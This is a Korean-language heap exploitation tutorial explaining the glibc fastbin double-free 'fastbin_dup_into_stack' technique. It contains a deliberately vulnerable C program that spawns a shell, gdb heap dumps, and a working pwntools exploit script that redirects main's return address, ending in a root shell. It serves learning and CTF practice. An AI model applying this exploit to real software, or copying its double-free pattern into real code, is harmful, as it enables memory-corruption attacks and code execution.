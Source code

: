 # **fastbin-dup_into_stack**

## **Condition**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)
* 공격자에 의해 할당된 Fast Chunk 영역에 값을 저장할 수 있어야 한다.
* 할당 받고자 하는 Stack 영역에 해제된 Fast Chunk의 크기 값이 저장되어 있어야 한다.

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk(A, B, C) 3개 생성한다.
1. 첫 번째 Fast Chunk(A) 해제한다.
1. 두 번째 Fast Chunk(B) 해제한다.
1. 첫 번째 Fast Chunk(A) 해제한다
1. 이전과 동일한 크기로 힙을 할당하고 해당 Chunk 영역에 "Stack 영역 주소 값 - prev_size 공간(0x8)" 쓴다.
1. 동일한 크기로 Fast Chunk 2개 생성한다.
1. 다음에 할당하는 영역에 원하는 값 쓴다.
    * 할당된 영역은 "Stack 영역의 주소 값 + 0x8" 영역

A -> B -> A 로 해제하는 이유는 동일한 공간을 연속으로 해제하는 경우 double free or corruption이 발생하기 때문이다.

5번째에 동일한 크기로 힙을 할당하는 경우 첫 번째 A가 할당되는데 여기에 값을 쓸 수 있다면 Fake Chunk로 조작이 가능하다.

![fastbin_dup_malloc](/Resources/img/fastbin_dup_malloc.png)

원래 세 번째 A의 FD 값에는 아무 값도 없기 때문에 다음 청크가 없었지만, 첫 번째 A가 할당되면서 FD, BK 부분이 데이터 영역으로 변했고, Fake Chunk 값을 쓰면 세 번째 A의 FD가 변조된다.  

Fake Chunk의 조건

* 이전 Chunk의 Size와 Fake Chunk의 Size가 동일해야 함
* 우리가 변조하고자 하는 주소보다 작은 주소에 위치해야 함

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void call_me(){
       system("/bin/sh");
}

int main()
{
        long stack_var = 0x0;
        scanf("%ld",&stack_var);
        printf("Stack_var : %p\n",&stack_var);

        char *buf1 = malloc(112);
        char *buf2 = malloc(112);
        char *buf3 = malloc(112);

        free(buf1);
        free(buf2);
        free(buf1);

        char *buf4 = malloc(112); 
        char *buf5 = malloc(112);

        scanf("%8s",buf4);

        char *buf6 = malloc(112); 
        char *buf7 = malloc(112);
        read(0,buf7,112);  
}
```

buf1을 2번 Free 후 buf4에 scanf로 입력받는다.  
Tail buf1의 fd는 Null이지만 현재 buf4로 malloc을 해준 상태로 Tail의 fd를 조작할 수 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602820 --> 0x4141414141414141 (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x6029a0 (size : 0x20660) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

Fast Chunk의 크기가 동일해야 하므로 Stack 내 128(0x80)이 존재하는 부분을 확인한 후 해당 위치의 - 0x8 한 위치(0x7ffe2d26fa38)를 입력해야한다.(Chunk의 시작)  
0x7ffe2d26fa48부터 User Data이며 read로 입력받도록 만들었다.

```
gdb-peda$ x/4x 0x7ffe2d26fa38
0x7ffe2d26fa38:	0x0000000000400783	0x0000000000000080
0x7ffe2d26fa48:	0x000000000040080d	0x00007ffe2d26fa7e

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x112a420 --> 0x7ffe2d26fa38 --> 0x40080d (size error (0x415d5b08c48348e8)) --> 0xc35f415e415d415c (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x112a5a0 (size : 0x20a60) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

read를 통해 main의 return 값을 변조하여 call_me로 분기가 가능하다. 

```
gdb-peda$ x/24gx $rbp-0x48
0x7ffc9c05d7d8:	0x00000000004007b5  0x0000000000000080 <- Chunk Header
0x7ffc9c05d7e8:	0x4141414141414141  0x4141414141414141 <- User Data
0x7ffc9c05d7f8:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d808:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d818:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d828:	0x00000000004006b6  0x000000000000000a

gdb-peda$ x/2x $rbp
0x7ffc9c05d820:	0x4141414141414141	0x00000000004006b6 <- ret
```

## **Exploit Code**

```python
from pwn import *

call_me = 0x4006b6
p = process('./fastbin_dup')
#gdb.attach(p)
p.sendline("128")  # Set Chunk Size in Stack
stack_addr = int(p.recvline().split(' ')[2],16)
log.info('Stack Addr : ' + hex(stack_addr)) 
p.sendline(p64(stack_addr - 0x8)) # size - 0x8(Chunk)
#raw_input('1')
p.sendline("A"*0x40 + p64(call_me)) # Modulate Stack

p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fastbin# python exploit.py 
[+] Starting local process './fastbin_dup': pid 4442
[*] Stack Addr : 0x7ffc3ed4ffc0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup_into_stack>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>